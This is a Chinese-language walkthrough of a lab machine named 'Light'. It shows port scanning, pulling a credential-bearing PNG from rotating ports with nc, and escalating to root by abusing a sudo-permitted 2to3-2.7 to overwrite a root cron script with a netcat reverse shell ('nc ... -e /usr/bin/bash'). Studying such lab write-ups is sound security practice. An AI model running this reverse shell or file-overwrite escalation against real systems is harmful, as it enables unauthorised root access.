




# Light

## 端口信息探测

使用`rustscan`扫描

```bash
$ rustscan -a 192.168.1.105
```



扫描两次发现端口一直在变



尝试使用`nmap`看下端口返回的详细信息

```bash
$ rustscan -a 192.168.1.105 -- -sC -sV -p-
```

但是这里因为`rustscan`的特性，似乎只把扫描到开放的端口再给`nmap`，所以端口没信息，像下面这样



直接用`nmap`扫

```bash
$ nmap -sC -sV -p- 192.168.1.105
```

这里太慢了，直接看`wp`去了，借用下`c1trus`师傅的扫描结果

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-18 14:46 CST
Nmap scan report for 192.168.56.10
Host is up (0.00035s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 93:a4:92:55:72:2b:9b:4a:52:66:5c:af:a9:83:3c:fd (RSA)
|   256 1e:a7:44:0b:2c:1b:0d:77:83:df:1d:9f:0e:30:08:4d (ECDSA)
|\_  256 d0:fa:9d:76:77:42:6f:91:d3:bd:b5:44:72:a7:c9:71 (ED25519)
59355/tcp open  unknown
| fingerprint-strings:
|   GenericLines, NULL:
|     00000000: 8950 4e47 0d0a 1a0a 0000 000d 4948 4452 .PNG........IHDR
|     00000010: 0000 013f 0000 0085 0806 0000 002d 80ff ...?.........-..
|     00000020: 0c00 0000 0173 5247 4200 aece 1ce9 0000 .....sRGB.......
|     00000030: 0004 6741 4d41 0000 b18f 0bfc 6105 0000 ..gAMA......a...
|     00000040: 0009 7048 5973 0000 0ec3 0000 0ec3 01c7 ..pHYs..........
|     00000050: 6fa8 6400 0007 de49 4441 5478 5eed dbf7 o.d....IDATx^...
|     00000060: 9314 4518 c671 ffff 1f2d ab2c 73c0 9cb0 ..E..q...-.,s...
|     00000070: 0c08 7292 0491 2092 8380 08e2 09ca c1a1 ..r... .........
|     00000080: 2248 7aed c799 2ea7 a67a 6f7b c3ed edf2 "Hz......zo{....
|     00000090: 7c3f 5553 1c7d bdd3 d361 9f09 bbf7 5400 |?US.}...a....T.
|     000000a0: 8021 c20f 8025 c20f 8025 c20f 8025 c20f .!...%...%...%..
|     000000b0: 8025 c20f 8025 c20f 8025 c20f 8025 c20f .%...%...%...%..
|     000000c0: 8025 c20f 8025 c20f 8025 c20f 8025 c20f .%...%...%...%..
|\_    000000d0: 8025 c
```

## nc批量连接tcp端口

可以看到`png`图片的文件头，但是不完整，可以用`nc`批量连接`tcp`端口获取完整数据

```bash
$ nc 192.168.1.105 100-65535 > result
$ head -n 3 result
00000000: 8950 4e47 0d0a 1a0a 0000 000d 4948 4452  .PNG........IHDR
00000010: 0000 013f 0000 0085 0806 0000 002d 80ff  ...?.........-..
00000020: 0c00 0000 0173 5247 4200 aece 1ce9 0000  .....sRGB.......
$ tail -n 3 result
00000820: 0058 22fc 0058 22fc 0058 22fc 0058 22fc  .X"..X"..X"..X".
00000830: 0018 8af8 1765 703a 66dc e967 bc00 0000  .....ep:f..g....
00000840: 0049 454e 44ae 4260 82                   .IEND.B`.
```

可以看到`png`的文件头尾

```bash
$ xxd -r result > res.png
```

使用命令，即可查看到图片，里面记录了的用户名和密码，因为只开放了`22`端口，使用`ssh`连接


可以在这里看到他的运行脚本内容

```python
#!/usr/bin/env python3
import socket
from random import randint

HOST = '0.0.0.0'                 # Symbolic name meaning all available interfaces
while True:
        allow_reuse_address = True
        random = randint(8000,65000)
        PORT = random              # Arbitrary non-privileged port
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        s.bind((HOST, PORT))
        s.listen(1)
        conn, addr = s.accept()
        print ("Connected by",addr)
        with open('mypass.txt', 'r') as f:
                conn.sendall(f.read().encode('utf-8'))
        conn.close()
```

## 2to3-2.7提权

```bash
$ find / -perm -4000 -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/umount
/usr/bin/chfn
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/su
/usr/bin/chsh
```

没发现什么东西，然后使用

```bash
$ sudo -l
Matching Defaults entries for lover on light:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lover may run the following commands on light:
    (ALL : ALL) NOPASSWD: /usr/bin/2to3-2.7
```

发现`/usr/bin/2to3-2.7`，查看该文件

```bash
lover@light:~$ file /usr/bin/2to3-2.7
/usr/bin/2to3-2.7: a /usr/bin/python2.7 script, ASCII text executable
lover@light:~$ cat /usr/bin/2to3-2.7
#! /usr/bin/python2.7
import sys
from lib2to3.main import main

sys.exit(main("lib2to3.fixes"))
```

内容没发现特别的东西，查看命令帮助

```
/usr/bin/2to3-2.7 -h
Usage: 2to3 [options] file|dir ...

Options:
  -h, --help            show this help message and exit
  -d, --doctests_only   Fix up doctests only
  -f FIX, --fix=FIX     Each FIX specifies a transformation; default: all
  -j PROCESSES, --processes=PROCESSES
                        Run 2to3 concurrently
  -x NOFIX, --nofix=NOFIX
                        Prevent a transformation from being run
  -l, --list-fixes      List available transformations
  -p, --print-function  Modify the grammar so that print() is a function
  -v, --verbose         More verbose logging
  --no-diffs            Don't show diffs of the refactoring
  -w, --write           Write back modified files
  -n, --nobackups       Don't write backups for modified files
  -o OUTPUT_DIR, --output-dir=OUTPUT_DIR
                        Put output files in this directory instead of
                        overwriting the input files.  Requires -n.
  -W, --write-unchanged-files
                        Also write files even if no changes were required
                        (useful with --output-dir); implies -w.
  --add-suffix=ADD_SUFFIX
                        Append this string to all output filenames. Requires
                        -n if non-empty.  ex: --add-suffix='3' will generate
                        .py3 files.
```

发现可以通过`-Wn`参数覆盖文件，找个高权限运行的脚本来替换，因为这里端口一直在变，猜测在用定时任务，使用`pspy`查看


使用`2to3`将我们新建的`light.py`覆盖该文件来反弹`shell`

```bash
import os

os.system("nc 192.168.1.92 9999 -e /usr/bin/bash")
```

运行

```bash
$ sudo /usr/bin/2to3-2.7 -Wn light.py -o /root/script/
WARNING: --write-unchanged-files/-W implies -w.
lib2to3.main: Output in '/root/script/' will mirror the input directory '' layout.
RefactoringTool: Skipping optional fixer: buffer
RefactoringTool: Skipping optional fixer: idioms
RefactoringTool: Skipping optional fixer: set_literal
RefactoringTool: Skipping optional fixer: ws_comma
RefactoringTool: No changes to light.py
RefactoringTool: Writing converted light.py to /root/script/light.py.
RefactoringTool: Files that were modified:
RefactoringTool: light.py
```

本机监听即可获得`shell`



